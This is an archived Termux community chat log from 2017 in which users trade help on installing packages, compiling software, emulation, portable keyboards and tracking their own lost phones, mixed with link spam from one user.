2017-09-28 04:45:15	gitter	(namuhtobor) How to do it?

2017-09-28 04:47:37	timwr	why not just do `python ipgeolocation.py`?

2017-09-28 04:48:49	gitter	(namuhtobor) that was done successfully

2017-09-28 04:49:06	gitter	(namuhtobor) I m trying to setup the setoolkit

2017-09-28 04:49:28	gitter	(namuhtobor) python setup.py

2017-09-28 06:08:05	ggallin	hello

2017-09-28 06:08:16	ggallin	hello

2017-09-28 08:42:02	g089	|/msg frumpylava hi

2017-09-28 08:43:15	gitter	(namuhtobor) Hellow there

2017-09-28 08:43:29	gitter	(namuhtobor) Need help

2017-09-28 09:04:20	gitter	(namuhtobor) can i install angry ip scaner on termux?

2017-09-28 09:10:28	live_the_dream	angry ip written in java?

2017-09-28 09:11:02	g089	https://wiki.termux.com/wiki/Termux_Wiki:General_disclaimer

2017-09-28 09:19:11	gitter	(sdrausty) http://wiki.termux.com

2017-09-28 09:56:10	g089	how so frrrrrr?

2017-09-28 10:01:48	gitter	(sdrausty) https://wiki.termux.com/wiki/TOC

2017-09-28 10:02:05	gitter	(sdrausty) wdut?

2017-09-28 10:06:50	gitter	(sdrausty) https://wiki.termux.com/wiki/Draft:Main_Page

2017-09-28 10:15:30	gitter	(sdrausty) $ while true ; do play-audio Lights\ by\ Journey-CWrn7y_KXt8.webm ;done

2017-09-28 10:17:29	frumpylava	@sdrausty: mpv --loop Lights\ by\ Journey-CWrn7y_KXt8.webm

2017-09-28 10:22:13	gitter	(sdrausty) https://duckduckgo.com/?q=grey+sound+music+site%3A.edu

2017-09-28 10:23:35	gitter	(sdrausty) https://duckduckgo.com/?q=grey+sound+music+cognitive+therepy+site%3A.edu

2017-09-28 10:24:44	gitter	(sdrausty) https://docs.docker.com/engine/installation/linux/docker-ce/fedora/#install-using-the-convenience-script

2017-09-28 10:29:29	gitter	(sdrausty) https://plus.google.com/photos/photo/109614420080028230010/6470835999920331378?icm=false&iso=true&authkey=COuR052p85mwWQ&sqid=101692629528551299417&ssid=017607d9-e204-4088-a861-4d5c9b9b80b9

2017-09-28 10:59:11	gitter	(sdrausty) https://wiki.termux.com/wiki/Draft:Main_Page

2017-09-28 11:11:34	u0_a93	deleted ?

2017-09-28 11:12:27	u0_a93	frumpylava: ? did u delete draft?

2017-09-28 11:12:29	u0_a93	?

2017-09-28 11:12:43	u0_a93	rdrt? 

2017-09-28 11:12:47	u0_a93	etc?

2017-09-28 22:47:53	patpads	 is /storage/extSdCard/ the location to the external sd card ? just making sure

2017-09-28 22:48:12	patpads	anybody home 3:

2017-09-28 23:24:02	patpads	*cricket*

2017-09-29 00:36:52	gitter	(Grimler91) patpads: yeah it is

2017-09-29 00:38:50	gitter	(mklein994) soo... anybody have any cool uses for termux?

2017-09-29 00:39:05	gitter	(mklein994) @mklein994 *crickets chirp faster*

2017-09-29 00:39:08	patpads	thanks for being alive gitter lol

2017-09-29 00:39:33	patpads	I just started using it, trying to figure out how to run a web app with Termux

2017-09-29 00:39:59	patpads	*Grimler21

2017-09-29 00:40:07	patpads	*91 ...

2017-09-29 00:41:06	gitter	(Grimler91) patpads: you asked in the middle of the night European time so I'm guessing many people are asleep :)

2017-09-29 00:42:35	Brains-	patpads: What app?

2017-09-29 00:43:39	patpads	I'm just trying to run a simple nodeJS app

2017-09-29 00:43:48	patpads	when I did npm install everything failed

2017-09-29 00:44:01	patpads	how do you run commands as root/Administrator ?

2017-09-29 00:44:43	patpads	@Grimler91 oh gotcha, most here are Europeans it seems then

2017-09-29 00:45:19	Brains-	patpads: Is no way, termux is a self contained application.

2017-09-29 00:45:22	Brains-	What app?

2017-09-29 00:47:44	krch7	How much work would it be to get qemu for x86 running in Termux. I found some useful info on using docker for termux-packages

2017-09-29 00:50:21	Grimler	padpads: you don't need to run commands as root normally, termux is setup so that all commands (well, most of them) are possible without root

2017-09-29 00:51:23	patpads	@Brains-: no way ? sheet.. I'm just trying to run a simple react template

2017-09-29 00:52:04	patpads	btw how do I reply to people on here directly, @ or : doesn't seem to work does it

2017-09-29 00:52:38	Brains-	krch7, not supported by the kernel.

2017-09-29 00:52:48	Brains-	Docker that is, for now.

2017-09-29 00:54:35	Grimler	: works, at least my irc program highlights my nick when someone writes "Grimler:"

2017-09-29 00:56:34	Grimler	And @ works for gitter people

2017-09-29 00:56:57	krch7	I don't need full system emulation. Just looking for qemu-user

2017-09-29 00:57:33	gitter	(mklein994) does anyone know how to get the .deb file from travis' docker build?

2017-09-29 00:58:01	patpads	Grimler: gotcha thanks

2017-09-29 00:59:48	krch7	The Limbo project can run a x86 vm without rooting. I'm just hoping to be able to invoke a win32 binary through wine

2017-09-29 01:03:38	patpads	wait so what does everyone here use Termux for ?

2017-09-29 01:05:38	gitter	(mklein994) I just recently had a database assignment for university, so PostgreSQL came in handy, because I could work on it on the bus.

2017-09-29 01:06:37	krch7	@patpads - ssh into machines, newsbeuter to read rss feeds, vim to edit notes, ranger to manage files, shortcuts to execute rsync jobs

2017-09-29 01:08:20	krch7	I have a sweet setup with newsbeuter. A macro use headless chrome to distill the text from an article. Converts it to speech via balcon.exe (win speech sdk because linux tts is horrible).

2017-09-29 01:12:17	live_the_dream	krch7: qemu stuff is on my apt repo

2017-09-29 01:13:01	Brains-	krch7: Win speech sdk?

2017-09-29 01:14:07	krch7	I built a very tiny wine prefix that successfully runs text to speech. Far better than any voices available on linux

2017-09-29 01:15:09	krch7	@live_the_dream: where is your repo?

2017-09-29 01:15:24	live_the_dream	https://github.com/its-pointless/gcc_termux  has instructions

2017-09-29 01:15:41	live_the_dream	its also on the termux wiki

2017-09-29 01:15:50	krch7	xeffyr/Termux-RootFS also seems to have qemu-i386-static

2017-09-29 01:15:59	krch7	Nice thank you

2017-09-29 01:17:23	patpads	krch7: damn that sounds cool

2017-09-29 01:17:49	patpads	you should write a guide for peasants like me lol

2017-09-29 01:18:17	live_the_dream	i got guile 2.2 to compile using the docker image

2017-09-29 01:18:32	live_the_dream	64 bit targets work but 32 bit ones require a bit of silliness

2017-09-29 01:19:40	patpads	@mklein994: nice that sounds like a good use case for me as well as learning some new languages like C, practicing python etc. I'm a n00b

2017-09-29 01:24:38	krch7	@live_the_dream - your repo appears to be using qemu to accelate builds targeting arm? I'm looking at emulating x86 from within Termux.

2017-09-29 01:25:23	live_the_dream	there are 2 archs mentioned

2017-09-29 01:25:40	live_the_dream	first one is is the you are emulating

2017-09-29 01:25:48	live_the_dream	last one is the termux arch

2017-09-29 01:26:28	live_the_dream	how well they work i have nfi

2017-09-29 01:26:59	krch7	Ok. I'll dig in and see what I can get to work. Thanks

2017-09-29 01:36:20	Brains-	krch7: Were you able to install packages from xeffyr?

2017-09-29 01:37:31	krch7	Trying these first https://github.com/its-pointless/its-pointless.github.io/tree/master/files/dists/termux/extras/binary-aarch64

2017-09-29 03:21:11	ockert	hi

2017-09-29 03:21:30	ockert	dosemu support executing a dos program in the unix shell

2017-09-29 03:21:41	ockert	im looking to compile dosemu

2017-09-29 03:21:44	frumpylava	ockert: hi

2017-09-29 03:21:48	ockert	has anyone had success with this?

2017-09-29 03:22:32	frumpylava	ockert: I can't recall anyone trying it before.

2017-09-29 03:24:09	frumpylava	ockert: Are you trying to compile it with the build system or on device?

2017-09-29 03:24:54	frumpylava	ockert: Are you trying to compile it with the build system or on device?

2017-09-29 03:31:02	ockert	yes i am

2017-09-29 03:31:08	ockert	with the device

2017-09-29 03:31:28	frumpylava	What are the issues you're running in?

2017-09-29 03:31:54	ockert	for one thing it requires gas, so im working on getting that into the system

2017-09-29 03:34:52	frumpylava	ockert: Gnu Assembler is part of binutils. You can install it with `pkg install binutils`

2017-09-29 03:41:14	ockert	i figured it was, however binutils did not come with gas

2017-09-29 03:41:19	ockert	is gas the samething as as?

2017-09-29 03:43:01	frumpylava	ockert: According to wikipedia (https://en.wikipedia.org/wiki/GNU_Assembler): Yes.

2017-09-29 03:44:44	frumpylava	ockert: Also just looked on debian.  There is no such things as `gas`. Only `as`

2017-09-29 03:45:28	frumpylava	gas is just an acronym for gnu assembler. the executable name is `as`.

2017-09-29 04:02:01	ockert	thx, ill continue trying to compile this

2017-09-29 04:20:01	ockert	so configure does pic up as, but the error is that the system has no complete code16 functional gas (line 9004 of configure)

2017-09-29 04:24:35	frumpylava	ockert: hmm... sounds complicated. You may need to stick around for someone to have any advice. Or you could post it to the google plus community.

2017-09-29 04:24:51	ockert	indeed, thankns frumpylava

2017-09-29 04:25:28	ockert	the usecase is a functional dos environment within the termux terminal, as opposed to using dosbox cause i got nasm compiled and wanna play with that

2017-09-29 04:37:21	Grimler	ockert: might be worth trying to cross-compile it as well, using termux's build script. Sometimes that is easier.

2017-09-29 04:53:59	frumpylava	I just set up my termux so that it sends me my `termux-location` as an email every hour. It's probably the best way to track my device in case I lose it without giving my location info to some american company.

2017-09-29 04:57:15	concat	frumpylava: Did you use tasker or such to automate it to once each hour?

2017-09-29 04:59:30	frumpylava	concat: No, altough that would have been a possibility. I set up a cronjob.

2017-09-29 05:00:20	Grimler	frumpylava: I was considering something similar before. Was thinking about setting it up so that the device automatically creates a revere ssh tunnel to my home server, which would allow me to connect to the device if I lose it and it is kept online. Won't work if someone steals it and factory resets it though (which I'm guessing a thief would do)

2017-09-29 05:01:16	concat	That seems like a smart solution.

2017-09-29 05:01:36	concat	A lot of emails but not that much actuall data.

2017-09-29 05:02:18	concat	Do the termux:boot addon simply run each executeable in the /boot/ directory?

2017-09-29 05:03:02	frumpylava	concat: ~/.termux/boot/

2017-09-29 05:04:09	concat	Nice.

2017-09-29 05:04:59	frumpylava	Grimler: I may also do something like that. Maybe I'll set it up so that it checks a specific url, and if it contains "true" it will make that reverse tunnel. It could check that url every 5 or 15 minutes. That way it wouldn't use that much battery.

2017-09-29 05:07:00	concat	frumpylava: Can I have your file for the email? Otherwise I'll probably just write my own because it sounds nice.

2017-09-29 05:07:20	concat	Do you have it on github?

2017-09-29 05:09:45	frumpylava	concat: https://gist.github.com/Neo-Oli/c72834ce7b5cc60b36611e5b009b9c23

2017-09-29 05:09:55	frumpylava	you will have to set up mutt for sending emails.

2017-09-29 05:10:32	concat	Nice.

2017-09-29 05:14:18	concat	I just got a porteable enough keyboard to really make use to termux so I'm trying to set things up.

2017-09-29 05:14:37	concat	Nice not having to carry a laptop around just to ssh into my main machine when I want to work.

2017-09-29 05:15:49	frumpylava	concat: I had that. I had the logitech k480. But I find that the screen is still too small. Do you use termux on a tablet?

2017-09-29 05:17:40	concat	I have both a tablet (some medium size samsung thing from a few years back) and a phone (google pixel). I suspect that the phone screen will be to small to be really useful though.

2017-09-29 05:17:59	concat	So I'll probably end up using it on the tablet the most.

2017-09-29 05:18:21	concat	How's the logitech k480?

2017-09-29 05:18:37	frumpylava	concat: Heavy.

2017-09-29 05:19:49	concat	Would you have bought something else today?

2017-09-29 05:19:55	frumpylava	It has a nice functionality with the device switcher, which is really usefull to switch between phone and tablet. It's very heavy (because it needs to support a tablet standing up).

2017-09-29 05:22:18	concat	From what I can find it should still be significantly less than a laptop, the keyboard is 820 g. And a laptop is usually like 1500.

2017-09-29 05:23:18	frumpylava	concat: Yeah. It's not as heavy as a laptop. But the size is comparable, so I'd have to take my big backpack anyway.

2017-09-29 05:23:26	concat	the latest macbook is 1.37 kg. So a keyboard+tablet would probably be about the same.

2017-09-29 05:26:21	frumpylava	If I were to buy something similar today, it'd probably be a 60% mechanical keyboard, because I also don't like how the k480 "feels".

2017-09-29 05:27:04	concat	Most good 60%-70% mechs don't have bluetooth though.

2017-09-29 05:27:13	concat	So you'll end up using a kable.

2017-09-29 05:27:23	concat	Or buy one of the few that have it.

2017-09-29 05:27:29	concat	cable

2017-09-29 05:27:41	frumpylava	yeah.

2017-09-29 05:29:22	concat	But that is pretty much my setup.

2017-09-29 05:29:53	concat	Not super porteable, I mean it's like a laptop, requires a normal backpack.

2017-09-29 05:30:03	concat	But it feels nice writing on.

2017-09-29 05:30:40	frumpylava	When I got into visiting hackerspaces I bought the k480 so that I wouldn't have to buy a laptop. But because that didn't really work out I bought a laptop anyway, so I don't need a bluetooth keyboard anymore. Especially since, if I have to bring my backpack anyway, I might as well bring my laptop. Maybe those super small foldable keyboards would be nice.

2017-09-29 05:31:19	concat	I got the Varmilo VA69M, but you could probably get something even smaller.

2017-09-29 05:31:54	concat	Especially if you use ansi instead of ISO.

2017-09-29 05:35:07	frumpylava	I did take my k480 instead of my laptop to japan this spring and that worked pretty well the few times I used it. It is a good keyboard.

2017-09-29 05:35:45	Grimler	is the k480 lacking home, pg down, pg up and end? I had a keyboard without those keys available before and hated it...

2017-09-29 05:37:21	frumpylava	yeah. But that is less of a problem for me since I switched my zsh from emacs to vim bindings.

2017-09-29 05:38:04	concat	page up/down is still somewhat useful even with vim bindings.

2017-09-29 05:41:07	frumpylava	that's also true, but I was able to get by without them.

2017-09-29 05:41:41	concat	You can probably remap things so that it shouldn't be a problem as well.

2017-09-29 07:34:45	ockert	concat: not really on the issue of portability, but nodejs package tty.js allows remote login via browser, then at least you got a productive interface to your phone

2017-09-29 07:59:57	frumpylava	ockert: Why would one use this instead of ssh?

2017-09-29 08:08:47	ockert	primarily laziness : )

2017-09-29 08:09:12	ockert	im in an agile meeting now with a browser tab open

2017-09-29 08:10:27	BrainDamage	to me the main issue of ssh in termux is that it doesn't have pam support

2017-09-29 08:10:39	BrainDamage	with pam, one can add password, 2factor, etc

2017-09-29 08:10:51	BrainDamage	then roaming ssh would be less troublesome

2017-09-29 08:11:24	BrainDamage	I'd simply generate a one-time token on the phone every 30s, then have the ssh login prompt for that

2017-09-29 08:14:27	frumpylava	BrainDamage: That would be cool, but replacing it with something that only supports http basic auth doesn't seem secure.

2017-09-29 08:15:13	frumpylava	BrainDamage: by the way, did you get around to testing proxychains-ng?

2017-09-29 08:18:59	BrainDamage	no, i wouldn't use the websocket garbage

2017-09-29 08:19:20	BrainDamage	yes, i gave a quick test with ipv4 and it seemed to work

2017-09-29 08:20:02	BrainDamage	I've used strict chains

2017-09-29 09:15:54	gitter	(natebass) https://channel9.msdn.com/Shows/Azure-Friday/PowerShell-in-Azure-Cloud-Shell Hey CLI nerds check this out! At the very least it is an easy way to run a shell in the browser. Great vim support too (shown at the end)

2017-09-29 11:32:57	frumpylava	BrainDamage: Thanks for testing. I've been using it as a replacement or tsocks and it has been working great as that.

2017-09-29 11:47:51	Brains-	frumpylava: Thanks for the mail script. Useful.

2017-09-29 11:48:29	Brains-	If you want something simpler I have a python script that does basically the same thing. Just need to read in the termux data.

2017-09-29 11:55:07	frumpylava	Brains-: Sure, I'd like to take a look

2017-09-29 13:11:11	Brains-	Cool, I'll grab it after my shift.

2017-09-29 15:41:34	icebal	gitter, ther is always shellinabox or gate one for CLI in the browser

2017-09-29 19:54:08	gitter	(sdrausty) The main button at https://m.facebook.com/termux has been updated to link with

2017-09-29 19:55:26	gitter	(sdrausty) https://wiki.termux.com/ congratulations 😀😍😀😍 on the upgrade!

2017-09-29 20:00:58	gitter	(sdrausty) The main activity at https://m.facebook.com/termux is now

2017-09-29 20:01:40	gitter	(sdrausty) https://wiki.termux.com/ congratulations 😀🙉🎼

2017-09-29 20:02:30	gitter	(sdrausty) https://en.m.wikipedia.org/wiki/APT_(Debian)

2017-09-29 20:06:18	gitter	(sdrausty) https://en.m.wikipedia.org/w/index.php?title=Special:Search&search=Termux

2017-09-29 20:08:02	gitter	(sdrausty) I'm selecting academic profile and clicking👍@fbk

2017-09-29 20:09:15	gitter	(sdrausty) https://m.facebook.com/search/top/?q=technology&ref

2017-09-29 20:10:22	gitter	(sdrausty) When you reach out, you might get what you want.

2017-09-29 20:15:28	g3	no reboot

2017-09-29 20:15:32	g3	why not

2017-09-29 20:16:26	g3	@fornwall frumpylava: et.al. weechat does more that flicker now

2017-09-29 20:16:51	g3	it reboots midroid see

2017-09-29 20:17:46	g3	mi-Android OS datiz

2017-09-29 20:18:04	g3	64arch reboot

2017-09-29 20:18:07	g3	whoaaaa

2017-09-29 20:21:31	g3	 https://sdrausty.github.io/logs/ircFreenodeTermuxWeechatlog is more intermittent than before thanks to this.

2017-09-29 20:22:10	g3	so is https://sdrausty.github.io/pages/more

2017-09-29 20:31:59	g3	@fbk *@facebook

2017-09-29 20:36:54	gitter	(sdrausty) g3 is trying to express wom afaict

2017-09-29 20:37:48	gitter	(sdrausty) https://plus.google.com/109614420080028230010/posts/KKaAegbLYLy

2017-09-29 20:42:43	gitter	(sdrausty) https://github.com/termux/termux-packages/issues/1176

2017-09-29 20:43:47	gitter	(sdrausty) If you are on an antiquated computing device with whirling fans and disks spreading California Prop 65 dew about you, and your surroundings around you might want to know about California Prop 65:

2017-09-29 20:43:47	gitter	(sdrausty)

2017-09-29 20:43:47	gitter	(sdrausty) https://www.google.com/search?q=California+Prop+65

2017-09-29 20:57:06	g3	https://plus.google.com/communities/101692629528551299417

2017-09-29 21:03:46	g3	lv da blk on wht logo

2017-09-29 21:03:55	g3	lv *i lv

2017-09-29 21:12:33	gitter	(sdrausty) https://plus.google.com/communities/101692629528551299417

2017-09-29 21:36:18	gitter	(sdrausty) https://en.m.wikipedia.org/wiki/Apt

2017-09-29 21:36:52	gitter	(sdrausty) https://en.m.wikipedia.org/wiki/Debian

2017-09-29 21:37:59	gitter	(sdrausty) https://en.m.wikipedia.org/wiki/Termux

2017-09-29 21:39:58	g3	https://en.m.wikipedia.org/wiki/Termux

2017-09-29 21:46:39	gitter	(sdrausty) https://plus.google.com/communities/101692629528551299417

2017-09-29 21:47:08	gitter	(sdrausty) https://wiki.termux.com/wiki/Termux_Wiki:General_disclaimer

2017-09-29 21:49:44	g3	1https://wiki.termux.com/wiki/Termux_Wiki:General_Disclaimer

2017-09-29 21:57:23	g3	https://wiki.termux.com/wiki/Termux_Wiki_talk:General_Disclaimer

2017-09-29 22:07:12	elicebmi	what does it mean mirrored?

2017-09-29 22:07:40	elicebmi	thank you termux btw. great app.

2017-09-29 22:17:27	g3	https://duckduckgo.com/?q=define%3Amirrored&t=hc&ia=definition

2017-09-29 22:17:55	g3	lv

2017-09-29 22:21:22	elicebmi	ah right. forgot to ask google... ok ill go check it out.

2017-09-29 22:22:15	g3	tnx

2017-09-29 22:45:48	g088	^C

2017-09-29 22:45:48	g088	$ while true ; do play-audio Lights\ by\ Journey-CWrn7y_KXt8.webm ;done

2017-09-29 23:06:04	gitter	(sdrausty) https://duckduckgo.com/?q=is+locking+draft+pages+productive+wiki&atb=v83-6_e&t=cros&ia=web

2017-09-29 23:29:20	gitter	(sdrausty) https://www.merriam-webster.com/dictionary/write

2017-09-29 23:29:48	gitter	(sdrausty) Definition of write

2017-09-29 23:30:05	gitter	(sdrausty) wrote play  \ˈrōt\; written play  \ˈri-tᵊn\ also writ play  \ˈrit\ or dialectal wrote; writing play  \ˈrī-tiŋ\

2017-09-29 23:30:05	gitter	(sdrausty) transitive verb

2017-09-29 23:33:30	gitter	(sdrausty) https://m.facebook.com/termux/

2017-09-29 23:36:32	gitter	(suryapoo) When I use debug=True in flask

2017-09-29 23:36:46	gitter	(suryapoo) The console stops at reloading with stat

2017-09-29 23:37:01	gitter	(suryapoo) And the browser doesn't load the page

2017-09-29 23:37:04	gitter	(suryapoo) Guys help

2017-09-30 00:45:12	g3	https://plus.google.com/109614420080028230010/posts/NZJWHdqipUw

2017-09-30 01:10:50	gitter	(sdrausty) Sorry, something went wrong.

2017-09-30 01:10:50	gitter	(sdrausty) We are working on it and we'll get it fixed as soon as we can.

2017-09-30 01:12:41	gitter	(sdrausty) https://github.com/sdrausty/buildAPKsGames

2017-09-30 01:23:04	gitter	(sdrausty) https://glow.li/tech/2016/01/16/compiling-tty-clock-on-termux.html

2017-09-30 01:24:03	gitter	(sdrausty) Can you please update your post to current, and you can also...

2017-09-30 01:25:58	gitter	(sdrausty) From

2017-09-30 01:26:00	gitter	(sdrausty) This post is now obsolete. You can install tty-clock from the repository.

2017-09-30 01:26:30	gitter	(sdrausty) Update: You can also install tty-clock from the repository.

2017-09-30 01:26:43	gitter	(sdrausty) Or similar...

2017-09-30 01:28:46	gitter	(sdrausty) https://m.facebook.com/termux

2017-09-30 01:50:06	gitter	(sdrausty) Sorry, something went wrong.

2017-09-30 01:50:06	gitter	(sdrausty) We are working on it and we'll get it fixed as soon as we can.

2017-09-30 03:26:26	gitter	(suryapoo) Guys kindly help with flask

2017-09-30 03:26:31	gitter	(suryapoo) Created an issue

2017-09-30 03:35:14	kutsan	Hi there, what's the meaning of color16, color17 and after those in color.properties file?

2017-09-30 03:35:46	Ipsilon	not sure, but probably colors 16 and 17 in the 256 color palette

2017-09-30 03:39:26	kutsan	Ipsilon: That was the answer. I just thought they were selection color or something. Thank you.

2017-09-30 03:39:49	Ipsilon	yvw

2017-09-30 07:15:39	gitter	(Xd4dMOc8RYOGN8z_twitter) Hi I want scrip self bot line

2017-09-30 08:06:15	gitter	(suryapoo)  Guys..has anyone used sqlalchemy on termux

2017-09-30 08:36:38	pkid	Hi

2017-09-30 15:45:34	g088	p7i

2017-09-30 16:42:39	imp	THANK YOU for Termux!

2017-09-30 18:36:12	imp	worked like a charm!

2017-09-30 18:37:40	live_the_dream	yes we should get around to adding that info to the documentation at some point

2017-09-30 18:39:19	imp	termux is the most killer app in android, hands down. I have been looking for this for years.

2017-09-30 18:41:08	live_the_dream	its like cygwin for android except its real linux underneath so everything works properly

2017-09-30 18:41:46	live_the_dream	so its not like cygwin at all

2017-09-30 18:54:36	imp	is there any other configuration in termux-properties besides bell-character and back-key ?

2017-09-30 19:06:01	imp	the api is amazing!

2017-09-30 19:25:07	Markx	Hello

2017-09-30 19:25:20	Markx	My first time on IRC

2017-09-30 19:29:32	imp	Markx: welcome ..

2017-10-01 01:12:19	dakun	Hello all. Is there an intent I can pass that contains a command to run? I'm trying to tie in my kivy app into termux for a few things

2017-10-01 01:18:34	krch7	@dakun. I'm not really familiar with the internals, but how would you authenticate that?

2017-10-01 01:32:29	dakun	what do you mean?

2017-10-01 01:33:40	krch7	@dakun. I'm wonder if it would a security problem.

2017-10-01 01:34:01	krch7	@dakun. I found this: https://github.com/termux/termux-tasker. Looks like the code here might be helpful.

2017-10-01 01:35:51	krch7	https://github.com/termux/termux-tasker/blob/master/app/src/main/java/com/termux/tasker/FireReceiver.java

2017-10-01 01:38:19	dakun	hmm. I would guess if it was possible a pronpt would ask the user for access, like root does

2017-10-01 01:39:55	dakun	looks like that might work for pointing to a file to run, but that may be a problem since the newer version of android api disallowes file:// schemes in intents...

2017-10-01 07:14:43	Ipsilon	I was pretty happy to see that my little note-taking app worked on termux (fzf/python). But it was awesome to troubleshoot a bug and commit the fix all via termux :P

2017-10-01 08:56:01	u0_a124	Hi

2017-10-01 09:52:07	pirmansx	hi

2017-10-01 09:52:49	pirmansx	hi

2017-10-01 09:52:57	pirmansx	any body

2017-10-01 09:53:20	pirmansx	hi

2017-10-01 09:54:09	u0_a503	hi

2017-10-01 09:54:20	pirmansx	fuck

2017-10-01 09:54:36	u0_a503	this channel is fuck

2017-10-01 10:13:07	zj1995	https://play.google.com/store/apps/details?id=nextapp.sp  it seems like this app uses adb to get around android 7 restrictions

2017-10-01 10:13:13	zj1995	is there some way termux can do the same?

2017-10-01 14:39:47	gitter	(sdrausty) w3m broke

2017-10-01 17:13:38	gitter	(sdrausty) https://m.facebook.com/termux/

2017-10-01 19:24:16	rods-tab3	[07:13] (zj1995) https://play.google.com/store/apps/details?id=nextapp.sp  it seems like this app uses adb to get around android 7 restrictions

2017-10-01 19:24:58	rods-tab3	zj1995  -- why do you say ''adb''  ?

2017-10-01 20:06:30	zj1995	it tells you to manually grant permissions to it through adb

2017-10-01 20:07:15	zj1995	later i realized even that's not too useful since there's no way to grant /proc and /sys access

2017-10-01 20:07:20	zj1995	only battery stats

2017-10-01 20:30:47	live_the_dream	umm /proc and /sys restriction is nought and oreo right?

2017-10-01 20:36:11	rods-tab3	yea 7 put on new ristrictions - ps only shows your procs iirc

2017-10-01 20:37:09	rods-tab3	does android come with adb ??  i thought you had to install it separately

2017-10-01 20:44:47	zj1995	adb is part of android

2017-10-01 20:45:17	zj1995	you're thinking about the platform-tools that need to be installed on your pc

2017-10-01 20:45:50	zj1995	(apparently 8 is even worse, you can't access /proc altogether)

2017-10-01 20:52:20	rods-tab3	i have that here:  SystemPanel2 beta  on andro 6 nonroot

2017-10-01 21:12:29	live_the_dream	an xposed module would work but only 7.1 is working ( not fully either)

2017-10-01 21:13:17	live_the_dream	annoyingly ssh-agent isnt turning up in proc either

2017-10-01 21:13:36	live_the_dream	so you can't tell if its active or not

2017-10-01 21:14:35	live_the_dream	it would be possible to get a proc like system for termux stuff that appears locally

2017-10-01 21:14:57	live_the_dream	but that isn't the real thinh

2017-10-02 16:02:24	gitter	(sdrausty) https://wiki.termux.com/wiki/Talk:Shells

2017-10-02 16:05:20	rods-tab3	She shelled C-shells by the seashore.

2017-10-02 17:24:37	g3	🐚🎼

2017-10-02 17:50:56	live_the_dream	sdrusty which arch you are using? arm?

2017-10-02 17:51:05	live_the_dream	rusty could you do a test for me?

2017-10-02 17:51:16	live_the_dream	i know that error

2017-10-06 11:31:44	gitter	(Auxilus) frumpylava : https://wiki.termux.com/wiki/Donate

2017-10-06 11:40:07	Grimler	maximillion: the size of termux depends on how many packages you have installed. Mine is 2.8 gb for example and growing.. So it depends on what you want to do in termux

2017-10-06 11:48:32	frumpylava	@Auxilus what of it?

2017-10-06 11:52:52	gitter	(Auxilus) Is there any plans for start accepting  donations?

2017-10-06 11:56:12	frumpylava	@Auxilus That page is meant as a replacement for https://termux.com/donate.html, since the help pages are slowly being faced out. I contacted @fornwall via email to ask what he wants to do in that regard. I created the page to see if I can create a page that not even administrators can edit (since a donations page would be super critical if someone tampered with it)

2017-10-06 11:58:52	frumpylava	But I haven't heard back yet (poke @fornwall ;))

2017-10-06 11:59:14	frumpylava	@Auxilus, but it would be a page that only he can edit.

2017-10-06 12:00:13	g088	maximillion: 19G ☺

2017-10-06 12:00:38	frumpylava	@Auxilus I am not planning to independently accept donations for now.

2017-10-06 12:01:23	gitter	(Auxilus) I don't know why, but @fornwall is little show on replying for some reason

2017-10-06 12:01:46	g088	prly bzy

2017-10-06 12:02:03	gitter	(Auxilus) I guess he doesn't get much time for termux with his day job..

2017-10-06 12:02:34	frumpylava	@Auxilus ¯\_(ツ)_/¯ Sometimes life gets in the way.

2017-10-06 12:02:53	gitter	(Auxilus) True..

2017-10-06 12:03:27	gitter	(Auxilus) Any way to get `termux-wifi-connect `?

2017-10-06 12:05:29	g088	Sometimes we like distance from one of our main activites. Perspective. Rest.

2017-10-06 12:10:30	frumpylava	@Auxilus also the developer community has grown a bit and a lot of things get fixed by other people now. He is still merging PR's once a day or so.

2017-10-06 12:11:24	gitter	(Auxilus) Yes, I guess only you two have access to merging..

2017-10-06 12:11:45	gitter	(Auxilus) @vishalbiswas been offline for some time now...

2017-10-06 12:15:12	frumpylava	@Auxilus I am not sure if I can merge, I never tried it. I suspect I can, but that wasn't the deal when I got given the rights. The deal was to help out tagging and administring issues, so I am not going to try it. Also I don't think it matters as I can't update the repository.

2017-10-06 12:15:39	frumpylava	*update the apt repository

2017-10-06 12:17:19	gitter	(Auxilus) frumpylava

2017-10-06 12:17:49	gitter	(Auxilus) Can we use manually created fs to get fake root access?

2017-10-06 12:18:15	gitter	(Auxilus) like  `$ROOT/sys/`

2017-10-06 12:18:25	frumpylava	@Auxilus no idea. But it would be very cool

2017-10-06 12:18:59	gitter	(Auxilus) we can clone the actual fs data to $ROOT and then we can get rid of $PREFIX

2017-10-06 12:23:50	gitter	(Auxilus) I'll

2017-10-06 12:24:04	gitter	(Auxilus) open issue about that

2017-10-06 12:24:30	gitter	(Auxilus) I think we cant clone cz that'd require root access in the first place

2017-10-06 12:25:45	gitter	(Auxilus) Can we bootstrap basic android data like drivers and all that apart from the gui and other non required stuff for a terminal?

2017-10-06 12:31:21	g088	thank you for your input @vishalbiswas (ircd on device wow)

2017-10-06 12:32:19	g088	maybe we find proot too enlightening?

2017-10-06 12:32:57	g088	lost in

2017-10-06 12:33:04	g088	proot

2017-10-06 12:34:32	gitter	(Auxilus) g088 : Is that you sdrausty?

2017-10-06 12:40:44	g088	h

2017-10-06 12:40:46	g088	y

2017-10-06 12:40:49	g088	kol

2017-10-06 12:42:01	g088	https://wiki.termux.com/wiki/Special:RecentChanges

2017-10-06 12:42:28	g088	https://facebook.com/termux/

2017-10-06 12:44:16	g088	More than 5.3 billion devices with Bluetooth signals are at risk of a malware attack newly identified by an internet of things security company. If you're ...

2017-10-06 12:44:29	g088	https://duckduckgo.com/?q=bluetooth+hack

2017-10-06 12:45:30	g088	+5G

2017-10-06 12:45:39	gitter	(Auxilus) Wth dude, you change your nick again and again...

2017-10-06 12:45:39	g088	<5G

2017-10-06 12:45:49	g088	g iz me

2017-10-06 12:45:58	g088	h iz me too

2017-10-06 12:46:10	g088	g* && h*

2017-10-06 12:46:22	gitter	(Auxilus) what bout 088 and 093 and all that?

2017-10-06 12:46:28	frumpylava	@Auxilus it makes it harder to /ignore him

2017-10-06 12:46:44	gitter	(Auxilus) 😂

2017-10-06 12:46:47	g088	wherz our botz?

2017-10-06 12:47:12	g088	channel bots btw

2017-10-06 12:47:23	gitter	(Auxilus) frumpylava : can we bootstrap the basic android data to $PREFIX?

2017-10-06 12:47:52	gitter	(Auxilus) I really want root access inside termux without actually rooting the device

2017-10-06 12:48:16	frumpylava	@Auxilus I don't know about that stuff. But it would be really cool.

2017-10-06 12:49:21	gitter	(Auxilus) Yeah, cool af

2017-10-06 12:49:29	gitter	(Auxilus) Ill create issue

2017-10-06 12:49:39	g088	:)

2017-10-06 12:49:50	gitter	(Auxilus) Lets see if @fornwall can make this happen

